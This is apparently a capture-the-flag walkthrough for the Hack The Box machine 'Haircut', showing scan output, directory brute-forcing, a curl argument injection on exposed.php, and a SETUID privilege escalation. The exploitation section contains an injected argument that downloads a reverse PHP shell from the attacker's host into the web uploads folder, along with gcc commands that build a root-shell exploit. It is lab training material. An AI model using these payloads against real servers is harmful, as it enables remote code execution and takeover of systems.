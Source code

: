 ```yaml
---
title:     "Hack The Box - Haircut"
tags: [linux,medium,curl]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/1.png)

We are going to pwn Haircut from Hack The Box.

Link :<https://www.hackthebox.eu/home/machines/profile/21>


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/2.png)
Looks like normal webpage, Lets try bruteforcing the directories and look for anything interesting.

## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/21 18:36:57 Starting gobuster
===============================================================
/index.html (Status: 200)
/uploads (Status: 301)
/test.html (Status: 200)
/hair.html (Status: 200)
/exposed.php (Status: 200)
===============================================================
2020/01/21 18:39:38 Finished
===============================================================
```

``/exposed.php`` 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/3.png)

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/4.png)
``curl`` is running in the server so lets interrupt the request in the ``burp`` and see what going on.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/5.png)
So by using ``curl`` we need to inject our payload inorder to get shell.

There is a way to upload reverse shell to the box using ``curl`` 
I started my HTTP server with ``Reverse PHP shell `` And we already know there is ``/uploads`` directory. 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/6.png)

```
http://10.10.14.17:8000/shell.php -o /var/www/html/uploads/shell.php

-o will Write the file in /uploads/
```
Now lets start our listener and open the ``shell.php`` in the ``/uploads``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/7.png)

We got the shell.


## Privilege Escalation:

I upload my Linux Enumeration Script and I found an SETUID binary
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/8.png)

There is an exploit available for this version.

> https://www.exploit-db.com/exploits/41154

Downloaded the script and tried executing it leads to some error , So I split the script into 3

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/9.png)

Did the commands given from the script as manually.

> gcc -fPIC -shared -ldl -o exploit.so exploit.c 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/10.png)

>gcc -o rootshell rootshell.c

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/11.png)

Then I uploaded all the scripts to the box
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/12.png)

And executed the last script ``root.sh``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/13.png)

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-haircut/14.png)
Got Root






